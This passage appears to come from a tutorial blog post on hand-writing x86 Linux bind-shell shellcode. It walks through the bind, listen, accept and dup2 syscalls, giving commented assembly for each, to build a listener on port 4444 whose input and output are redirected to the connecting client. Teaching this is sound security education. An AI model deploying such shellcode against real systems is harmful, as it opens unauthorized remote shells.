 In bind, “sockfd”, “*addr”, and “addrlen” need to be set. So, we can have the following code:
[Bind Man Page](https://man7.org/linux/man-pages/man2/bind.2.html){:target="_blank"}

{% highlight js %}
;bind the socket
xor ebx, ebx ;clear ebx
mov ebx, eax ;ebx stores sockfd
mov ax, 361 ;call bind
push esi ;any ip address
push word 0x5c11 ;port 4444
push word 0x2	;sin family
mov ecx, esp	;let ecx points to the start of the stack
mov dl, 0x10	;addess length is 16
int 0x80
{% endhighlight %}

Note in the above code, I created a stack to store the address structure, which contains IP, Port, and address family. In Assembly, the stack is similar to an array where you can put data in it. Also, do note that the “sockfd” is the file descriptor returned by calling the “socket” system call.

"Listen" takes two arguments, "sockfd" and "backlog". We pass the "sockfd" from the file descriptor returned by calling the "socket" and set the backlog to 0. [Listen Man Page](https://man7.org/linux/man-pages/man2/listen.2.html){:target="_blank"}

{% highlight js %}
;listen
mov ax, 363 ;call listen
xor ecx, ecx ;backlog is 0, sockfd is in ebx
int 0x80
{% endhighlight %}

"Accept" takes three arguments, "sockfd", "*addr", and "*addrlen". We use the same file descriptor returned from the "socket", and the other two arguments have been set from the previous code. "*addr" needs to be 0 and "*addrlen" needs to be 16. [Accept Man Page](https://man7.org/linux/man-pages/man2/accept.2.html){:target="_blank"}

{% highlight js %}
;accept
mov ax, 364; sockfd is in ebx, sockaddr is in ecx, socklen_t is in edx
int 0x80
{% endhighlight %}

"Dup2" takes two arguments, "oldfd" and "newfd". We will set the "oldfd" with the file descriptor returned by "socket". We will call dup2 three times and set "stderr", "stdout", and "stdin" for the "newfd" each time. So, we use a loop which starts at 3, and decreases the value till 0 and calls the dup2 total of three times. [Dup2 Man Page](https://man7.org/linux/man-pages/man2/dup.2.html){:target="_blank"}

{% highlight js %}
;dup2, essentially it gives us ability to enter command and see output in our shell
mov ebx, eax ;get the oldfd
mov cl, 3 ;the newfd, stdin, stdout, std error
dup2:
	xor eax,eax ;reset the eax
	mov al, 63 ;call dup2
	int 0x80
	dec ecx ;minus the ecx by 1
	jns dup2 ;jump if not signed
{% endhighlight %}
